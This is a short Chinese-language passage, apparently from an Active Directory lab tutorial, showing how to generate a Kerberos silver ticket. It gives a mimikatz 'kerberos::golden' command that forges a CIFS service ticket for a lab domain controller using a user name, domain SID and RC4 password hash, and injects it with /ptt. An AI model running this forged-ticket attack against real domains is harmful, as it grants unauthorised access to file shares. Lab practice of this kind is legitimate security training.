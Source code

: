 > 6ddfde72949191a652a31de199330b1b

##### 生成白银票据	

生成白银票据写入内存并查看

```bash
kerberos::golden /user:lisi /domain:wasj.test /sid:S-1-5-21-1449925610-700517293-2636695646-500 /target:DC01.wasj.test /service:cifs /rc4:6ddfde72949191a652a31de199330b1b /ptt
```

![image-20241102190012762](https://image.201068.xyz/assets/9.域环境搭建/image-20241102190012762.png)



